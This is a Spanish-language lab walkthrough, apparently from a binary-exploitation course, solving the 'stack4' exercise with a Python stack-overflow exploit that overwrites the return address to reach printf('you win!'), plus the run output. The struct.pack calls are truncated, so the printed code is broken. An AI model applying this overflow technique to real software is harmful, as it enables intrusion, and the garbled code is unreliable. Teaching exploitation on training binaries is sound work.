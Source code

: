 * Armamos un archivo en Python para ingresar el input: exploit.py

```
#! /usr/bin/env python
"""Uso: ./exploit.py | ./stack4 """
import sys
from struct import pack
   
ret_addr = 0x0804849c                               #addr de printf("you win!")
   
exploit  = "A" * 80                                 #fill buf
exploit += "BBBB"                                   #fill cookie
exploit += "CCCC"                                   #fill ebp
exploit += pack(", ret_addr)                     #set return address
   
sys.stdout.write(exploit)
```

> **Consideraciones**: en python es posible convertir a formato little endian una dirección importando `struct` y usando la función `pack`: `pack("`

1.  `Ejecutamos el exploit`

    ```
    user@abos:~$ ./exploit.py | ./stack4
    buf: bffff5a4 cookie: bffff5f4
    you win!
    Segmentation fault
    user@abos:~$
    ```

    La condición que evalúa el valor de `cookie` es falsa, pero después de ejecutarse el código de `main()` la dirección de retorno apunta a `printf()`, por lo que se salta allí y se imprime `you win!` por pantalla.

    Gráficamente logramos el siguiente resultado:

![](<../../../.gitbook/assets/imagen (103).png>)

